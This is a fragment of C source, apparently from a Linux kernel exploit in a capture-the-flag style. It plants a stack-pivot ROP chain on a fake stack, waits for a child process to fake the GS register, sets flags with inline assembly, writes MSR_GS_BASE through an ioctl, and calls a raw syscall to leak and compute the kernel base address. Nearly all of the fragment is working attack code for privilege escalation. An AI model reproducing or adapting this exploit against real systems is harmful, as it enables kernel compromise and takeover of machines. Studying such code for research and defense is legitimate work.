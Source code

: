 ```c
		while (1){
			*(ul*) &fake_stack[0xf50] = POP_RSP +  *kbase;
			*(ul*) &fake_stack[0xf58] = (ul) chain;
		};

		return  0;
	}

	while (!*&kbase[1]){} // wait for child to fake gs

	asm  volatile (
		".intel_syntax  noprefix\n"
		"push  0x40206\n"
		"popf\n"
		".att_syntax  prefix"
		:
		:
		:	
	);

	ioctl(fd, MSR_GS_BASE, KERNEL_GS);
	
	naked_syscall();
	*kbase =  *(ul*) &fake_stack[0xf50] -  0x120012f;

	while (1)
		naked_syscall();

	stop("finished");
	return  0;
}
```


